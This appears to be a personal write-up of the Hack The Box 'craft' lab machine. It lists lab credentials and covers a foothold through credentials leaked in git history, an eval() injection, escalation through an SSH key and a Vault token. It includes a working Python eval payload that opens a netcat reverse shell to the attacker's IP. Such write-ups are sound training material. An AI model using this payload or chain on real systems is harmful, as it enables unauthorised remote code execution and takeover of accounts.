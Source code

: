 # craft : `10.10.10.110`

**Table Of Contents:**

<!-- TOC -->

- [craft : `10.10.10.110`](#craft--101010110)
  - [Credentials](#credentials)
  - [Synopsis](#synopsis)
  - [Enumeration](#enumeration)
    - [Opened Ports](#opened-ports)
  - [FootHold](#foothold)
  - [Lateral Movement](#lateral-movement)
  - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

## Credentials


| Service | Username |    Password    |
| :-------: | :--------: | :--------------: |
|  gogs  |  dinesh  | 4aUh0A8PbVJxgd |
|  mysql  |  craft  | qLGockJ6G2J75O |
|  gogs  | ebachman | llJ77D8QFkLPQB |
|  gogs  | gilfoyle | ZEU3N8WNM2rh4T |

---

## Synopsis

---

## Enumeration

### Opened Ports

- [ ] 22 (SSH)
- [ ] 443 (HTTPS)

---

## FootHold

- On the https webserver, there was two link given to check for which are `api.craft.htb` and `gogs.craft.htb`.
- On the `api.craft.htb`, a craft api was hosted which was dealing with some endpoints.
- On the `gogs.craft.htb`, gogs was hosted which is a self hosted git service.
- The source code of `api.craft.htb` was on gogs. We need a token to send request to api endpoints.
- Found a json web token but it was false.
- Extracted credentials from the commit history.

  ```bash
  ┌──(ircashem)㉿(10.10.14.16)──[~/HackTheBox/craft/craft-api]
  └─$ git show a2d28ed1554adddfcfb845879bfea09f976ab7c1
  commit a2d28ed1554adddfcfb845879bfea09f976ab7c1
  Author: dinesh <dinesh@craft.htb>
  Date:   Wed Feb 6 23:18:51 2019 -0500

      Cleanup test

  diff --git a/tests/test.py b/tests/test.py
  index 40d5470..9b0e2e2 100644
  --- a/tests/test.py
  +++ b/tests/test.py
  @@ -3,7 +3,7 @@
   import requests
   import json

  -response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
  +response = requests.get('https://api.craft.htb/api/auth/login',  auth=('', ''), verify=False)
   json_response = json.loads(response.text)
   token =  json_response['token']
  ```
- Noticed that eval("%s ") is being used in the code which is really really dangerous 🗡.

  ![](assets/20210629_180815_image.png)
- Got rce, but can't get reverse shell. Tried wget, bash reverse shell. Looks like we can't pass pipe (|) over there in the param.
- Payload Worked: `__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.16 9009 >/tmp/f')#`
- Extracted credential from settings.py and also modified `dbtest.py` to extract user's credential from database. Tried ssh but failed. 🙅
- Login to the gogs.craft.htb and noticed a private repo for gilfoyle in which private id_rsa key is saved.
- Logged in via ssh to gilfoyle 🎊

---

## Lateral Movement

---

## Privilege Escalation

- Vaulttoken is in the home folder. SSH into the box with that creds.

```bash
┌─[gilfoyle@craft]─[~]                                                                                                                 
└──╼ $vault ssh root@10.10.10.110                                                                                                      
```